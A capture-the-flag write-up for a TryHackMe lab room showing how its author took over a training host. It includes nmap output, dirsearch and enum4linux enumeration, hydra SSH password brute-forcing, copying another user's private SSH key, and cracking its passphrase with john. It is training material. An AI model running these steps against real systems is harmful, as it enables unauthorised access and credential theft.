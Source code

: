 # Basic Pentesting Writeup
> URL : https://tryhackme.com/room/basicpentestingjt 
- Target IP : `10.10.165.235`
## Scanning
- `nmap -A 10.10.165.235`
    - ```
        Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-24 04:40 EDT
        Nmap scan report for 10.10.165.235
        Host is up (0.27s latency).
        Not shown: 994 closed ports
        PORT     STATE SERVICE     VERSION
        22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
        |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
        |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
        80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
        |_http-server-header: Apache/2.4.18 (Ubuntu)
        |_http-title: Site doesn't have a title (text/html).
        139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
        445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
        8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
        | ajp-methods: 
        |_  Supported methods: GET HEAD POST OPTIONS
        8080/tcp open  http        Apache Tomcat 9.0.7
        |_http-favicon: Apache Tomcat
        |_http-title: Apache Tomcat/9.0.7
        Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Host script results:
        |_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
        |_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
        | smb-os-discovery: 
        |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
        |   Computer name: basic2
        |   NetBIOS computer name: BASIC2\x00
        |   Domain name: \x00
        |   FQDN: basic2
        |_  System time: 2021-07-24T04:41:05-04:00
        | smb-security-mode: 
        |   account_used: guest
        |   authentication_level: user
        |   challenge_response: supported
        |_  message_signing: disabled (dangerous, but default)
        | smb2-security-mode: 
        |   2.02: 
        |_    Message signing enabled but not required
        | smb2-time: 
        |   date: 2021-07-24T08:41:04
        |_  start_date: N/A

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 52.95 seconds
      ```
  - The open port is 
      - 22 SSH
          - [OpenSSH 7.2p2 - Username Enumeration](https://www.exploit-db.com/exploits/40136)
      - 80 HTTP
          - Apache/2.4.18  : no vulnerability
      - 139、445 SMB
          - Samba smbd 4.3.11-Ubuntu  : no vulnerability
      - 8009 AJP13
      - 8080 Tomcat

## Access Website (80 port)
- Use dirsearch
    - `python3 dirsearch.py -u http://10.10.165.235/ -e all`
- Question1 :  What is the name of the hidden directory on the web server(enter name without /)? 
    - development
- After access the development page, we can get 2 files
    - ![](https://i.imgur.com/h9T1zYV.png)
    - They are some mail from J and K to talk about some upgrade smb issue.

## Try to find the username
- `enum4linux 10.10.165.235 -a`
    - ![](https://i.imgur.com/ccICsWv.png)
    - So there are 2 username we find
        - `kay` and `jan`
- Although the verison of SSH services is 7.2p2, it has a vulnerability with Username Enumeration
    - https://www.exploit-db.com/exploits/40136
    - But I have tried and it doesn't work
    - ![](https://i.imgur.com/Xwze4iP.png)

## What is the password?
- We need to burp force the password for these 2 users
- Use hydra to check with rockyou.txt
    - `hydra -l kay -P /opt/rockyou.txt ssh://10.10.165.235`
    - `hydra -l jan -P /opt/rockyou.txt ssh://10.10.165.235`
        - ![](https://i.imgur.com/77oZcJ3.png)
        - We find the password : `armando` with user `jan`
        
## Login into ssh services with jan's credential
- `ssh jan@10.10.165.235`
- We are login with jan, but we can't cat `/home/kay/pass.bak`
    - ![](https://i.imgur.com/2dQSsQP.png)
- And then we find some cool things at `/home/kay/.ssh‵
    - ![](https://i.imgur.com/bkNLRzZ.png)
    - This is the login key file he/she forgot to remove, so we can login with ssh without password, we can try to scp it to our computer by `scp -r jan@10.10.165.235:/home/kay/.ssh .`
  - Use ssh command to try to login with kay
      - `chmod 600 id_rsa`
      - `ssh kay@10.10.165.235 -i id_rsa`
      - ![](https://i.imgur.com/ZYwW4DA.png)
      - But the key file needs password, so we need to crak

## Crack ssh key
- Use [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)
- `python ssh2john.py id_rsa > john_ssh`
    - ![](https://i.imgur.com/q9iN7v4.png)
- Run john with wordlist rockyou
    - `john john_ssh --wordlist=/opt/rockyou.txt`
    - ![](https://i.imgur.com/m2Dtw1b.png)
    - So password is `beeswax`
## Use key file and password to login with ssh
- ![](https://i.imgur.com/uUwKzEO.png)
- And we can find the final flag!
    - `heresareallystrongpasswordthatfollowsthepasswordpolicy`
## Final Screenshot
![](https://i.imgur.com/yPvQ7E1.png)
